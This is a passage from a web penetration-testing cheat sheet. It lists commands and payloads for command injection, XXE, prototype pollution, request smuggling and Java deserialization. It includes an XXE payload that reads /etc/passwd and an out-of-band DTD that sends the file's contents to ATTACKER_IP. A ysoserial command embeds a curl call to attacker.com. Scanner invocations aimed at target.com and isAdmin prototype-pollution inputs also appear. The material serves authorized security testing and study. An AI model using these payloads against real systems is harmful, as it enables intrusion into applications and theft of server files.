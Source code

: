     :- Test all injectable parameters from a request file
    commix -r request.txt -p param_to_inject --all


#### 3.4.4 XXE (XML External Entity) Injection
    :- (Manual testing with custom XML payloads is key. Tools can help automate detection)

    :- Example XXE Payload (to be used in a request body or file upload):
    
    <?xml version="1.0" encoding="UTF-8"?>
    <!DOCTYPE foo [<!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
    <data>&xxe;</data>
    #
    For OOB XXE:
    <!DOCTYPE foo [<!ENTITY % xxe SYSTEM "http://ATTACKER_IP:PORT/ext.dtd"> %xxe;]>
    Contents of ext.dtd on attacker server:
    <!ENTITY % file SYSTEM "file:///etc/passwd">
    <!ENTITY % eval "<!ENTITY &#x25; exfil SYSTEM 'http://ATTACKER_IP:PORT/?f=%file;'>">
    %eval;
    %exfil;

    :- (nuclei has XXE templates)    
    :- Run XXE templates
    nuclei -u https://target.com/xml_endpoint -t vulnerabilities/xxe/ 
    ---
        xxeinjector -f request.xml
    docem -u https://target.com/upload


#### 3.4.5 Prototype Pollution
    :- (Primarily a JavaScript vulnerability, manual testing and code review are crucial)
    :- Example in URL: https://target.com/?__proto__[isAdmin]=true
    :- Example in JSON body: {"__proto__": {"isAdmin": true}}
    :- Tools like ppfuzz or custom scripts can help discover potential gadgets.
    
    :- Conceptual: Fuzz for prototype pollution gadgets
    ppfuzz -u https://target.com/script.js -l 3


#### 3.4.6 HTTP Request Smuggling/Desync Attacks
    :- (Tools like Burp's HTTP Request Smuggler extension are essential. CLI tools can help test.)
    
    :- Test for CL.TE and TE.CL vulnerabilities
    smuggler.py -u https://target.com -x
    
    :- Test POST with data, log results
    smuggler.py -u https://target.com -m POST -d "param=val" -l log.txt 
    Turbo Intruder (Burp Extension) is highly effective for this.


#### 3.4.7 Deserialization Vulnerabilities
    :- (Highly language/framework specific. ysoserial for Java, phpggc for PHP)
    
    :- Generate Java deserialization payload
    java -jar ysoserial.jar CommonsCollections5 "curl http://attacker.com/hit" > java_payload.ser 
    
